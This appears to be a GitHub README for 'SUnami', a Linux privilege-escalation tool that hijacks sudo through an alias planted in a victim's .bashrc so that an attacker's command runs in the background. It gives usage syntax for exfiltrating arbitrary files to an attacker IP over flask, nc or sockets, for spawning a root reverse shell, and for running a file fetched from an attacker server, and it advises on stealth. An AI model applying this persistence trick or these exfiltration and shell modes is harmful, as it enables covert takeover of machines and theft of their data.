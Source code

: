# SUnami
 Struggling with linux priveledge escelation? well then its time to cheese it with SUnami.  
 0 interaction privesc is always recommended but not always achievable. For this reason we have created a tool for the most trivial priv esc in history (with a few drawbacks).  
 This is not an exploit just a cheap but effective trick. The usecase is when you have a shell on a sudoers account but no sudo cred.  
 It works by manipulating sudo via aliasing in their .bashrc file to prepend a malicious attacker specified command first in the background.  
 This does mean you will need to wait for sudo to be executed.  
 flags denoted with -- are required. with - optional.  
 the -local flag denotes that you want sunami to modify the .bashrc file on the current machine instead of producing output (not suggested for stealth reasons).
 
 # Notice
 using the shells and socket based exfil will throw an error in the targets shell if your listener isn't active. be sure to clean up after gaining root. For the most stealth with file exfil we suggest the built in flask server. Currently our built in listener works best with bash shells. for nc shells using ncs own listener is recommended.  
 SUnami has moved to https://github.com/malectricasoftware/SUnami
 

# File Exfiltration
I used passwd so as not to leak my hash for this demo but rest assured you can read whatever file you wish
![image](https://github.com/witchdocsec/SUnami/assets/107813117/a7f26322-5fca-4030-9725-13dc5a02ac44)  
## useage:
  sunami.py [-local {1,0}] exfilfile [--file FILE] [--method {postflask,nc,pysocket}] [--ip IP] [--port PORT]
# Root Shell
![image](https://github.com/witchdocsec/SUnami/assets/107813117/06000a59-b7da-45f3-8258-89618aa02a1f)
## useage:
  sunami.py [-local {1,0}] genshell [--ip IP] [--port PORT] [-shell SHELL] [-protocol PROTOCOL] [-listen {1,0}]
# Run From Server
![image](https://github.com/witchdocsec/SUnami/assets/107813117/91127128-64e1-4493-bf85-068bc3a04972)
## useage
  sunami.py [-local {1,0}] rfs [-h] --ip IP --port PORT --file FILE [--vars VARS [VARS ...]] [--schema SCHEMA]
  
